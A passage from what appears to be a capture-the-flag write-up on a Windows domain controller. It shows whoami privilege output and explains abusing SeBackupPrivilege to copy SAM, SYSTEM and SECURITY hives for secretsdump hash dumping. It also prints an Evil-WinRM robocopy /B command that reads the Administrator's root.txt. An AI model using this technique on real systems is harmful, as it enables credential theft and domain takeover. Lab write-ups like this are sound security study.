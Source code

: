 ```bash
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We have effectively already pwned the box at this point. SeBackupPrivilege allows for copying files, any file, which can target SAM, SYSTEM, and SECURITY. After grabbing those secretsdump can be used to dump the hashes on the machine, here it will contain Administrator as it is the DC, in non-DCs there might be other users or service accounts.

I'll use the process to grab the root flag as a poc.

```bash
*Evil-WinRM* PS C:\Users\Public\Music> robocopy C:\Users\Administrator\Desktop C:\Users\Public\Music root.txt /B

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Sunday, September 29, 2024 6:04:32 PM
   Source : C:\Users\Administrator\Desktop\
     Dest : C:\Users\Public\Music\

    Files : root.txt

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

	                   1	C:\Users\Administrator\Desktop\
	    New File  		      34	root.txt
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
```